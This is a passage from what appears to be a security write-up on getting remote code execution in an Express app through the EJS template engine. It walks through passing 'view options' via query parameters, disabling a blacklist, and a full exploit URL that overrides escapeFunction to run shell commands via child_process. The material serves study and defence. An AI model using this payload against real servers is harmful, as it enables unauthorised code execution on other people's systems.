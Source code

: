```plain text
res.render
```

function, like this:

```javascript
app.get('/greet', (req, res) => {
    ...snip...
    return res.render('greet', {
        settings: { "view options": { "hacked": "hacked" } },
        cache: false
    });
});

```

Now, let's set a breakpoint in the EJS library to see if it works. You can use a debugger in your development environment, such as the VSCode extension, to accomplish this. Here's an example:

![](https://hackmd.io/_uploads/ryg4kg4Pn.png)

After accessing the URL `localhost:3000/greet`, you will hit the breakpoint, and you can check if the "view options" have changed, indicating that it works:

![](https://hackmd.io/_uploads/rJwiGe4Ph.png)

To attempt to gain remote code execution (RCE), you need to modify the source code as follows to disable the blacklist for testing purposes:

```javascript
app.get('/greet', (req, res) => {

    const data = JSON.stringify(req.query);

    // if (BLACKLIST.find((item) => data.includes(item))) {
    //     return res.status(400).send('Can you not?');
    // }

    return res.render('greet', {
        ...JSON.parse(data),
        cache: false
    });
});

```

After modifying the code, run the program and access it using the following URL, which contains an exploit payload:

```plain text
<http://localhost:3000/greet?name=dimas&font=Arial&fontSize=20&settings[view+options][client]=1&settings[view+options][escapeFunction]=console.log;return%20global.process.mainModule.constructor._load(%22child_process%22).execSync(%22ls%22)>;

```

